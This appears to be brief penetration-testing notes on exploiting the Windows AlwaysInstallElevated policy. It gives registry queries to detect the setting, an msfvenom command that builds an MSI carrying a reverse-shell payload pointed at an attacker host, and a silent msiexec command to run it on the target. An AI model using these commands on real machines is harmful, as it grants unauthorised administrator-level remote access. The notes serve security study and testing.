

# Introduction
Windows has a group policy which, when enabled, allows a user to install a Microsoft Windows Installer Package (`.msi` file) with elevated privileges. This poses a security risk because an adversary can simply generate a malicious `.msi` file and execute it with admin privileges.

In order to check for this vulnerability, one need only query the following registry keys:

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```


The `AlwaysInstallElevated` policy appears enabled, so we can generate a malicious `.msi` executable. One way to do this is through Metasploit:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o reverse.msi
```

Next, transfer the executable to the target machine and execute it with `msiexec`:

```powershell
msiexec /quiet /qn /i <path>
```


